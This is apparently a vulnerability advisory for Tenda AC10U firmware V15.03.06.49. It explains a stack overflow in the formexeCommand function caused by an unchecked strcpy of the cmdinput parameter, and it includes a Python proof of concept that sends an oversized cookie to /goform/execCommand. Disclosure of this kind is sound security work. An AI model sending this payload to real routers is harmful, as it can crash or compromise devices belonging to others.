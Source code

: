 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `formexeCommand` function. The `str` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `cmd_buf` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(cmd_buf, str);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `cmd_buf` array, triggering this security vulnerability.

![image-20240313105309583](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313105309583.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240313105727084](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313105727084.png)
